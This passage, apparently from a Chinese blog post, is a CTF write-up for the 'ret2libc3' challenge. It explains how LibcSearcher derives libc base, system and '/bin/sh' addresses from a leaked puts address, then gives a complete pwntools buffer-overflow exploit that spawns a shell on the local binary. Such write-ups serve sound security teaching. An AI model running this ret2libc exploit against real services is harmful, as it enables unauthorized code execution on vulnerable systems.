 这就是libcsearch的函数 我们来解释一下

```cobol
libc=LibcSearcher('puts',puts_addr)、
计算出是多少版本的libc
base=puts_addr-libc.dump('puts')
通过计算出来的版本求得puts函数的基值 然后通过真实地址-基值=偏移量
system_addr=base+libc.dump('system')
通过偏移量+这个版本的system基值=真实system函数的地址
bin_addr=base+libc.dump('str_bin_sh')
通过偏移量+这个版本中字符串/bin/sh的基值 = 真实/bin/sh的地址
注意这里(str_bin_sh)是求字符串的写法
 
记住前面要引入LibcSearch库
```

### 完整exp

```cobol
from pwn import *
from LibcSearcher import *
 
p=process('./ret2libc3')
elf=ELF('ret2libc3')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
start_addr=elf.symbols['_start']
payload1=flat([b'A'*112,puts_plt,start_addr,puts_got])
p.sendlineafter('!?',payload1)
puts_addr=u32(p.recv(4))
libc=LibcSearcher('puts',puts_addr)
base=puts_addr-libc.dump('puts')
system_addr=base+libc.dump('system')
bin_addr=base+libc.dump('str_bin_sh')
payload2=flat([b'A'*112,system_addr,1234,bin_addr])
p.sendlineafter('!?',payload2)
p.interactive()
 
 
```

### 

### 出现报错不用慌张



<img src="https://i-blog.csdnimg.cn/blog_migrate/259428c32ec837ab9de8b347f13253a6.png" alt="" style="max-height:337px; box-sizing:content-box;" />


有这么多选择 一个一个选过去



<img src="https://i-blog.csdnimg.cn/blog_migrate/9fd6bdde6c8da5c091052a00f4f35121.png" alt="" style="max-height:393px; box-sizing:content-box;" />


我就是选到第八个才可以 老倒霉了



### 附上流程图



<img src="https://i-blog.csdnimg.cn/blog_migrate/3a4072102ef993f14a823306c02e7249.png" alt="" style="max-height:568px; box-sizing:content-box;" />